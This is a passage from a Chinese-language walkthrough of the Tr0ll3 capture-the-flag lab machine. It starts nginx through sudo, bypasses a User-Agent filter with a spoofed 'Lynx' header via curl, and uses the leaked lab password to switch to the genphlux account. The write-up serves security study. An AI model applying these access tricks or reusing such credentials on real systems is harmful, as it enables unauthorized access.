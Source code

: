 我们可以看到`wytshadow`允许用户启动nginx web server服务，这就是我们接下来要做的：

```
wytshadow@Tr0ll3:~$ sudo service nginx start
```

使用 对打开的端口进行本地检查以`netstat`确认 Web 服务器的成功启动。我们现在可以在端口 8080 上看到新服务。

![image-20220718143331983](../../.gitbook/assets/image-20220718143331983.png)

但是，我们无法访问 Web 服务，因为所有请求都被拒绝并显示`403 Forbidden`错误消息。

![image-20220718143415981](../../.gitbook/assets/image-20220718143415981.png)

为了缩小问题范围，我们打开文件`/etc/nginx/sites-ed/default`并查看 nginx Web 服务器的默认配置。一开始，我们注意到以下块：

```
server {
        listen 8080 default_server;
        listen [::]:8080 default_server;
            if ($http_user_agent !~ "Lynx*"){
                return 403;
}
```

如果请求不包含 user-agent `Lynx`，服务器将始终以 403 错误响应。由于该文件不幸是只读的，我们无法更改配置。但是，使用 curl 我们可以以预期的格式附加我们自己的用户代理标头。

```
┌──(root💀kali)-[~/Desktop]
└─# curl  -H "User-Agent: Lynx Basto"  http://192.168.32.174:8080
genphlux:HF9nd0cR!
```

```
wytshadow@Tr0ll3:~$ su genphlux
Password: 
genphlux@Tr0ll3:/home/wytshadow$ id
uid=1004(genphlux) gid=1004(genphlux) groups=1004(genphlux)
```
